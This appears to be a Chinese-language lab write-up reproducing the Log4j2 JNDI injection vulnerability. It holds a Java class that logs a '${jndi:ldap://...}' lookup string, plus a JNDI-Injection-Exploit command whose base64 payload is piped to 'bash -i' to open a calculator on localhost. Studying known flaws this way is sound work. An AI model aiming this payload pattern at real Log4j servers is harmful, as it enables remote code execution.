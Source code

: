 ```java
package org.h3rmesk1t.Log4j2;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/10 5:32 下午
 */
public class Vulnerability {

    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {

        logger.error("${jndi:ldap://127.0.0.1:1389/ladr0g}");
    }
}
```


# 漏洞复现
先启动恶意服务器, 来给`ldap`/`rmi`调用返回恶意代码, 这里我利用`JNDI`注入工具直接生成了.

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,b3BlbiAtYSBDYWxjdWxhdG9y}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

接着使用`logger.info`方法触发漏洞, 弹出计算器.

![](./images/2.png)
